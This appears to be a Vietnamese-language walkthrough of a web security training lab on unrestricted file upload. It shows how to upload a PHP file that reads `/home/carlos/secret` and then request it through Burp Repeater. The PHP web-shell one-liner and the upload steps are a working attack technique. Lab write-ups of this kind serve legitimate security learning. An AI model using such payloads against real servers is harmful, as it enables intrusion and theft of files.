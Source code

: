 >Upload a basic PHP web shell and use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret using the button provided in the lab banner.
>
>You can log in to your own account using the following credentials: `wiener:peter`

- Đầu tiên ta đăng nhập sau đó sẽ upload 1 ảnh bất kì lên hệ thống. Request upload ảnh đó sẽ hiện lên trong Burp rồi gửi nó đến repeater

![image](https://github.com/user-attachments/assets/5cdcf417-9656-46eb-87f0-d5e542aefa78)

- Tạo 1 file `.php` có nội dung `<?php echo file_get_contents('/home/carlos/secret'); ?>` trên máy để lấy thông tin file `/home/carlos/secret` rồi upload file đó lên

![image](https://github.com/user-attachments/assets/88e0fcae-18c9-4210-8be4-48f916a700c2)

- Chuyển đường dẫn trong request lúc nãy để trỏ đến exploit.php để lấy thông tin file

![image](https://github.com/user-attachments/assets/7a2d775f-28c0-4ea0-b4b5-3c58a710bebc)
